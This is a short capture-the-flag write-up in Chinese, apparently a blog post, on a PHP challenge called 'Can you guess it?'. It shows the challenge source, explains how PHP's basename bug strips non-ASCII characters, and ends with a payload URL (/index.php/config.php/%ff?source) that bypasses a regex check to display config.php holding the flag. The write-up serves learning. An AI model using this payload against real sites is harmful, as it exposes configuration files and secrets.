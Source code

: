 ```yaml
---
title: Can you guess it?
date: 2021-04-03 15:38:47
tags: wp

---
```

## '0'    



	```php
	<?php
	include 'config.php'; // FLAG is defined in config.php
	
	if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
	  exit("I don't know what you are thinking, but I won't let you read it :)");
	}
	
	if (isset($_GET['source'])) {
	  highlight_file(basename($_SERVER['PHP_SELF']));
	  exit();
	}
	```


`$_SERVER[''PHP_SELF'']`----->获取网页地址        
下面的是个幌子         
[basename漏洞](https://bugs.php.net/bug.php?id=62119)----->会去掉文件名开头的非ASCII值         
ascii的范围是`0~255`，但`128~255`没在表中       

payload：`/index.php/config.php/%ff?source`
